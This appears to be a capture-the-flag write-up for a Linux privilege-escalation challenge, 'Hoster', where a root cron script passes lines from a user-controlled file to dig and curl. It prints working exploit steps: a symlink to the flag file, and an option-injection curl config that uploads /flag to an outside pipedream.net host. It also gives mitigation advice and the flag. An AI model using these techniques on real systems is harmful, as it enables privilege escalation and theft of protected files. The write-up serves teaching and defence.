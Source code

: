 ```yaml
---
title: Hoster
author: Adrian Junge
description: You gained access to a Linux server. Can you also gain privileges?
categories:
    - PrivEsc
year: 2024
---
```


# 1. Introduction<a name="introduction"></a>
The description of this challenge already reveals what kind of ctf type this is gonna be about:

```
You gained access to a Linux server. Can you also gain privileges?
```

# 2. Reconnaissance<a name="reconnaissance"></a>
As you can already read in the challenge description, this challenge is all about privilege escalation on a Linux server. This means you start as a low-privilege user and have to elevate your privileges to root. All you get is SSH access to the challenge machine. You just start as a low-privileged ctf user. Looking around you find the following information: The flag is in the root directory in the `/flag` file which only the root user has read and write access to. So somehow you have to get root to read the flag file and give the content to us. In your home directory in `/config` is a file `domains.txt` but you don’t have enough permissions to read or edit the file. By having a look at the running processes you can see that the cron daemon is running:

![psauxw](ctf/writeups/cscg/hoster/psauxw.png "psauxw")

But nothing is going on in `/etc/crontab` where usually cronjobs are written. So there might be a hidden cronjob running under root. So how can you find out what the cronjob is doing? There is a beautiful tool named **PSPY** snooping all running processes without needing any root permissions. So you can see which commands are being run by other users and cron jobs. Downloading the script from [PSYP](https://github.com/DominicBreuker/pspy) and running it reveals the root cron job:

![pspy](ctf/writeups/cscg/hoster/pspy.png "pspy")

It seems like the cron job is simply running the `request_certificates.sh` script. All this script does is to iterate over each line of your `domains.txt` checking for a valid certificate and then executing the curl command:

```bash
#!/bin/bash

for file in /var/www/*; do
    echo "$file"
    if [ -f $file/config/domains.txt ]
    then
        while IFS="" read -r p || [ -n "$p" ]
        do
            if ( dig "$p" | grep -q 'NXDOMAIN' ) || ( dig "$p" 2>&1 | grep -q 'Invalid' ) || ( dig "$p" | grep -q 'SERVFAIL' )
            then
                echo "[-] Error resolving the domain"
            else
                curl -I "$p"
                # certbot -d "$p"
            fi
        done < $file/config/domains.txt
    else
        echo "[-] Not a file"
    fi
fi
```

So having a look again at the output of **PSPY** the `domains.txt` must contain a line *cscg.de* which is part of the arguments for the curl command.


# 3. Vulnerability Description<a name="vulnerability description"></a>
My initial thoughts were some kind of bash command injection via the *$file* in the first if statement. But sadly you can’t create or edit any directories in `/var/www/` so this won’t work. After playing around for some time I figured out that you can just remove the whole `/config` directory with `rm -rf /config` because you have full permissions over your home directory. So you can just create a new directory `/config` and add your version of the `domains.txt`. Now you have full control over the `domains.txt` and so full control over what is being executed as a command parameter for `dig` and `curl` in the `request_certificates.sh` script.


# 4. Exploitation<a name="exploitation"></a>
## 4.1 Exploitation Variant 1<a name="exploitation variant 1"></a>
My approach was exploiting the script via a symlink with `ln -s  /flag config/domains.txt` pointing to `/flag` so the script would read the content of your flag file and give it as a parameter to the dig command. By running **PSPY** you will just see the dig command being executed with the flag as the parameter. Of course, there are other possible solutions to reveal the flag by `for (( ; ; )); do ps aux >> log; done` effectively spamming `ps aux` and searching for the flag prefix or writing some small script doing this for you:

```bash
search_string="CSCG"
while true; do
    ps_output=$(ps aux)
    if [[ "$ps_output" == *"$search_string"* ]]; then
            echo $ps_output
            break;
    fi
done
```

## 4.2 Exploitation Variant 2<a name="exploitation variant 2"></a>
The intended solution was about command option injection. The problem was to find a parameter fitting both the dig and the `curl` commands and eventually upload the content of `/flag` to your server. With the -K option for `curl` you can define a path of a config file being used by `curl`. But there is a little problem with this parameter. The `dig` command doesn’t have an option -K so the if statement around `dig` in the script will fail. You need another option that won’t result in an output of dig containing *NXDOMAIN*, *Invalid* and *SERVFAIL*. Additionally, this option has to be a valid option for the `curl` command. There were multiple options like the `-f` argument which is the option for a silent fail in `curl` and the option to define a file path for `dig` to interact with. By defining a config file for curl with content like

```bash
echo "-fK/tmp/config" > config/domains.txt
cat <<EOF > /tmp/config
url = https://...pipedream.net
upload-file = /flag
EOF
```

the cronjob will eventually upload the file to your server

![flag-requestbin](ctf/writeups/cscg/hoster/flag_requestbin.png "flag-requestbin")


# 5. Mitigation<a name="mitigation"></a>
At first, you shouldn’t use root cron jobs if not necessary. In this case, a cron job executed by a low-privilege user would have done the job as well by giving the user reading permissions to the `domains.txt` or making it readable for only this user. Another problem was the access the low-privilege ctf user had to the directory where the `domains.txt` was placed. When using a root cron job which interacts with some files always make sure that the files and the parent directories are only accessible by root. If you have to place the file in a directory controlled by another user make the file immutable. It will stay there even when the user tries to modify the directory.

# 6. Flag<a name="flag"></a>
CSCG{1nject1ng\_0pti0ns\_1nste4d\_of\_c0mm4nds}


# 7. References<a name="references"></a>
- [PSPY](https://github.com/DominicBreuker/pspy)
